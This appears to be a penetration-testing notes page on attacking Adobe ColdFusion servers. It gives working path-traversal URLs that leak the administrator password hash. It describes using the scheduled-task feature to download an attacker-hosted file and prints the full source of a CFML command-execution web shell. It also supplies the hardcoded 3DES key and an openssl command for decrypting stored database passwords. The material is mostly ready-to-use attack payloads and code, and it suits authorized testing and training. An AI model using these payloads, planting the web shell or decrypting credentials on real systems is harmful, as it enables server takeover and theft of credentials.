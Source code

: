 # Adobe Coldfusion

### Introduction&#x20;

* ColdFusion is basically just yet another commercial web application development platform. The programming language used with that platform is also commonly called ColdFusion, but the correct name of it is [ColdFusion Markup Language (CFML)](http://en.wikipedia.org/wiki/CFML).
* Vulnerabilities against ColdFusion application are the typical ones so you can find Local File Disclosure (LFD), SQL injection and Cross-site Scripting as well.&#x20;
* And of course, ColdFusion by default runs as NT-Authority\SYSTEM (Windows) or nobody (Linux), thus making the ColdFusion+Windows combination a very desirable target.
* Source: [https://pentest.tonyng.net/attacking-adobe-coldfusion/](https://pentest.tonyng.net/attacking-adobe-coldfusion/)&#x20;

### Coldfusion LFI

* In unpatched versions of ColdFusion 6, 7 and 8 there is a local file inclusion vulnerability ([APSB10-18](http://www.adobe.com/support/security/bulletins/apsb10-18.html)) which you can exploit to get the administrator password hash from the password.properties file.
* ColdFusion 6:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%en
```

* ColdFusion 7:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%en
```

* ColdFusion 8:

```
http://[HOSTNAME:PORT]/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%en
```

* All versions (according to [this site](http://www.blackhatlibrary.net/Coldfusion\_hacking) \[3], but I have never tried it):

```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%en
```

* If the local file inclusion is successful, the password hash (SHA1) is written back to you on the administrative login page like this (hash was reducted):

<figure><img src="https://3.bp.blogspot.com/-UmlzABYTwYw/UwH___Yh4dI/AAAAAAAAAqA/-FQ23X4_EMY/s1600/CF8.png" alt=""><figcaption></figcaption></figure>

### Coldfusion Authenticated RCE

* Once we gain access to the administration panel we can upload a CFM shell.
* Go to the `Debugging & Loging / Scheduled Taks` menu element&#x20;
* Add a scheduled task that would download our CFML script from our webserver to the ColdFusion server’s webroot.&#x20;
* Make sure you schedule the deployment to some reasonable time, so 5-10 minutes from your current time&#x20;
* Here is an example on how it looks like:

<figure><img src="https://3.bp.blogspot.com/-J68uHE_fxuA/Uv31tFw9mWI/AAAAAAAAApg/xDRp8S5t5Eo/s1600/CFEXEC_UPLOAD.png" alt=""><figcaption></figcaption></figure>

* You can find a few CFML shells

```

    <html>
    <body>
     
    Notes:<br><br>
    <ul>
    <li>Prefix DOS commands with “c:\windows\system32\cmd.exe /c <command>” or wherever cmd.exe is<br>
    <li>Options are, of course, the command line options you want to run
    <li>CFEXECUTE could be removed by the admin. If you have access to CFIDE/administrator you can re-enable it
    </ul>
    <p>
    <cfoutput>
    <table>
    <form method=“POST” action=“cfexec.cfm”>
    <tr><td>Command:</td><td><input type=text name=”cmd” size=50
    <cfif isdefined(“form.cmd”)>value=”#form.cmd#”</cfif>><br></td></tr>
    <tr><td>Options:</td><td> <input type=text name=”opts” size=50
    <cfif isdefined(“form.opts”)>value=”#form.opts#”</cfif>><br></td></tr>
    <tr><td>Timeout:</td><td> <input type=text name=”timeout” size=4
    <cfif isdefined(“form.timeout”)>value=”#form.timeout#”
    <cfelse>value=”5″</cfif>></td></tr>
    </table>
    <input type=submit value=“Exec”>
    </form>
     
    <cfif isdefined(“form.cmd”)>
    <cfsavecontent variable=“myVar”>
    <cfexecute name = “#Form.cmd#” arguments = “#Form.opts#” timeout = “#Form.timeout#”> </cfexecute>
    </cfsavecontent>
    <pre> #myVar# </pre>
    </cfif>
    </cfoutput>
    </body>
    </html>
```



And it looks like this once it is uploaded (I had to use the Options fields to fit in the screenshot):

<figure><img src="https://2.bp.blogspot.com/-bIpXlXxblpY/Uv3zZ8yU7UI/AAAAAAAAApU/13IeKs-YjqM/s1600/CFEXEC.png" alt=""><figcaption></figcaption></figure>

### Getting database passwords from Data Sources

* Once you have access to the administrative panel, you can also get the connection strings and credentials to databases connected to ColdFusion.&#x20;
*   Depending again on the ColdFusion version, the credentials are stored in different places, but you might be able to retrieve the passwords from the administrative panel as well! ![🙂](https://s.w.org/images/core/emoji/11/svg/1f642.svg)


*   For ColdFusion 6 and 7 the passwords for DataSources encrypted in the following XML files:

    ```
    [ColdFusion_Install_Dir]\lib\neo-query.xml
    ```
*   For ColdFusion 8, 9 and 10:

    ```
    [ColdFusion_Install_Dir]\lib\neo-datasource.xml
    ```


* The most important thing is that by decompiling&#x20;
* `\lib\cfusion.jar` and looking at the `\coldfusion\sql\DataSourceDef.class`&#x20;
* You can find the seed for the key `(“0yJ!@1$r8p0L@r1$6yJ!@1rj”)` and algorithm (3DES and then Base64 encoding) used.
* In case of ColdFusion 6, 7 and 8, the encrypted passwords can be found just by looking at the page source of the individual data sources on the administrative panel (on ColdFusion 9 and 10 this was fixed and you will only see \*\*\*\*\*\*\*\* in the page source for the passwords).
*   No matter how you obtain the encrypted passwords, you can decrypt them with openSSL like this:

    ```
    echo [encrypted_and_base64_encoded_password] | openssl des-ede3 -a -d -K 30794A21403124723870304C4072312436794A214031726A -iv 30794A2140312472; echo
    ```
